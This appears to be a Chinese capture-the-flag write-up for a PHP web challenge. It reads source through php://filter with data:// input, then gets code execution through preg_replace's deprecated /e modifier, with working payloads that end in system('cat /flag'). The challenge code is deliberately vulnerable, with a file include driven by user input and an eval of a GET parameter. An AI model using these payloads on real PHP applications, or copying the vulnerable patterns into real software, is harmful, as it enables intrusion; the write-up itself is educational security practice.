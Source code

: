 ![](<./img/Pasted image 20221115160913.png>)
```php
<?php
error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }
    
    include($file);  //next.php
}
else{
    highlight_file(__FILE__);
}
?>
```
---
```shell
/?text=data://text/plain,I have a dream&file=next.php
```
![](<./img/Pasted image 20221115161441.png>)

话说回来如果我这样写的话不是还不如直接访问`next.php`嘛QwQ
```shell
/?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

> PD9waHAKJGlkID0gJF9HRVRbJ2lkJ107CiRfU0VTU0lPTlsnaWQnXSA9ICRpZDsKCmZ1bmN0aW9uIGNvbXBsZXgoJHJlLCAkc3RyKSB7CiAgICByZXR1cm4gcHJlZ19yZXBsYWNlKAogICAgICAgICcvKCcgLiAkcmUgLiAnKS9laScsCiAgICAgICAgJ3N0cnRvbG93ZXIoIlxcMSIpJywKICAgICAgICAkc3RyCiAgICApOwp9CgoKZm9yZWFjaCgkX0dFVCBhcyAkcmUgPT4gJHN0cikgewogICAgZWNobyBjb21wbGV4KCRyZSwgJHN0cikuICJcbiI7Cn0KCmZ1bmN0aW9uIGdldEZsYWcoKXsKCUBldmFsKCRfR0VUWydjbWQnXSk7Cn0K

解码后长这样
```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
有一个`getFlag()`函数，但是应该怎么调用它呢......

乍一看枚举、正则替换、回显一气呵成，貌似并没有机会

但是细看发现`preg_replace`中的正则表达式有一个没有见过的修饰符`e`

结果翻了半天官方文档也没翻到这个修饰符

翻谷歌发现这玩意早在`php 5.5.0`时代就被弃用，在`7.0.0`中被移除

查看响应中的`X-Powered-By`头，其值为`PHP/5.6.40`，刚好可以使用`e`修饰符
> 如果设置了这个被弃用的修饰符，[preg_replace()](https://www.php.net/manual/zh/function.preg-replace.php) 在进行了对替换字符串的后向引用替换之后, 将替换后的字符串作为`php`代码评估执行(`eval`函数方式)，并使用执行结果 作为实际参与替换的字符串。单引号、双引号、反斜线（`\`）和 NULL 字符在后向引用替换时会被用反斜线转义。

`'strtolower("\\1")'`中使用的是双引号，这意味着可以内插变量，利用这一点插入对`getFlag`的调用

对于`$re`，参考佬的wp，使用`\S*`以匹配所有非空白字符，同时避免`php`对某些特殊字符的处理
```php
/next.php?\S*=${getFlag()}&cmd=system('cat /flag');
```
> flag{a1a7ed7e-d4a8-403c-8d74-d1da5f631dd2} system('cat /flag');

#Web #PHP #function #伪协议 #RCE #正则表达式 #可变变量